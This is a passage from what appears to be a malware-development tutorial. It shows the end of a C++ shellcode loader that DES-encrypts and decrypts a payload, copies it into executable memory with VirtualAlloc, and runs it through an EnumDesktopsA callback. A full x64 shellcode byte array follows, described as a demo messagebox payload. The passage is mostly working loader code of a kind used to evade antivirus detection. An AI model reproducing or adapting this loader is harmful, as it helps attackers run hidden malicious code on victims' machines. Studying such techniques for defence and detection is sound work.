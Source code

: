 ```cpp
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  des_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
   for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  des_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");
  
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  return 0;
}
```

As you can see, as usual, I used `meow-meow` messagebox payload for demo purposes:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
